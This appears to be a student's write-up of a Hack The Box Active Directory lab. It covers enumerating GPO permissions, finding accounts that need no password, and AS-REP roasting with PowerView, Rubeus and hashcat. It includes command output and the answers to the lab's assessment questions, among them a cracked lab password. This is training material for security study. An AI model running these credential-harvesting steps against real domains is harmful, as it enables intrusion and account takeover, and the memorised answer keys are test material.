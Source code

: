 # Misconfig

### Group Policy Object (GPO) Abuse

If we can gain rights over a Group Policy Object via an ACL misconfiguration, we could leverage this for lateral movement, privilege escalation, and even domain compromise and as a persistence mechanism within the domain.

GPO misconfigurations can be abused to perform the following attacks:

* Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
* Adding a local admin user to one or more hosts
* Creating an immediate scheduled task to perform any number of actions

**Enumerating GPO Names with PowerView**

```powershell-session
PS C:\htb> Get-DomainGPO |select displayname

displayname
-----------
Default Domain Policy
Default Domain Controllers Policy
Deny Control Panel Access
Disallow LM Hash
Deny CMD Access
Disable Forced Restarts
Block Removable Media
Disable Guest Account
Service Accounts Password Policy
Logon Banner
Disconnect Idle RDP
Disable NetBIOS
AutoLogon
GuardAutoLogon
Certificate Services
```

**Enumerating GPO Names with a Built-In Cmdlet**

```powershell-session
PS C:\htb> Get-GPO -All | Select DisplayName

DisplayName
-----------
Certificate Services
Default Domain Policy
Disable NetBIOS
Disable Guest Account
AutoLogon
Default Domain Controllers Policy
Disconnect Idle RDP
Disallow LM Hash
Deny CMD Access
Block Removable Media
GuardAutoLogon
Service Accounts Password Policy
Logon Banner
Disable Forced Restarts
Deny Control Panel Access
```

**Enumerating Domain User GPO Rights**

```powershell-session
PS C:\htb> $sid=Convert-NameToSid "Domain Users"
PS C:\htb> Get-DomainGPO | Get-ObjectAcl | ?{$_.SecurityIdentifier -eq $sid}

ObjectDN              : CN={7CA9C789-14CE-46E3-A722-83F4097AF532},CN=Policies,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID             :
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, Delete, GenericExecute, WriteDacl,
                        WriteOwner
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 983095
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-513
AceType               : AccessAllowed
AceFlags              : ObjectInherit, ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit, ObjectInherit
PropagationFlags      : None
AuditFlags            : None
```

Here we can see that the Domain Users group has various permissions over a GPO

**Converting GPO GUID to Name**

```powershell-session
PS C:\htb Get-GPO -Guid 7CA9C789-14CE-46E3-A722-83F4097AF532

DisplayName      : Disconnect Idle RDP
DomainName       : INLANEFREIGHT.LOCAL
Owner            : INLANEFREIGHT\Domain Admins
Id               : 7ca9c789-14ce-46e3-a722-83f4097af532
GpoStatus        : AllSettingsEnabled
Description      :
CreationTime     : 10/28/2021 3:34:07 PM
ModificationTime : 4/5/2022 6:54:25 PM
UserVersion      : AD Version: 0, SysVol Version: 0
ComputerVersion  : AD Version: 0, SysVol Version: 0
WmiFilter        :
```

Checking in BloodHound, we can see that the `Domain Users` group has several rights over the `Disconnect Idle RDP` GPO, which could be leveraged for full control of the object.

![image](https://academy.hackthebox.com/storage/modules/143/gporights.png)

If we select the GPO in BloodHound and scroll down to `Affected Objects` on the `Node Info` tab, we can see that this GPO is applied to one OU, which contains four computer objects.

![image](https://academy.hackthebox.com/storage/modules/143/gpoaffected.png)

### PASSWD\_NOTREQD Field

**Checking for PASSWD\_NOTREQD Setting using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol

samaccountname                                                         useraccountcontrol
--------------                                                         ------------------
guest                ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
mlowe                                PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
ehamilton                            PASSWD_NOTREQD, NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
$725000-9jb50uejje9f                       ACCOUNTDISABLE, PASSWD_NOTREQD, NORMAL_ACCOUNT
nagiosagent                                                PASSWD_NOTREQD, NORMAL_ACCOUNT
```

### AS-REP Roasting

**Enumerating for DONT\_REQ\_PREAUTH Value using Get-DomainUser**

```powershell-session
PS C:\htb> Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl

samaccountname     : mmorgan
userprincipalname  : mmorgan@inlanefreight.local
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
```

**Retrieving AS-REP in Proper Format using Rubeus**

```powershell-session
PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

**Cracking the Hash Offline with Hashcat**

```shell-session
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

## Assessment

**Find another user with the passwd\_notreqd field set. Submit the samaccountname as your answer. The samaccountname starts with the letter "y".**

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption><p>ygroce</p></figcaption></figure>

**Find another user with the "Do not require Kerberos pre-authentication setting" enabled. Perform an ASREPRoasting attack against this user, crack the hash, and submit their cleartext password as your answer.**

<figure><img src="../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Get the asrep ticket</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (35) (1).png" alt=""><figcaption><p>ygroce:Pass@word</p></figcaption></figure>





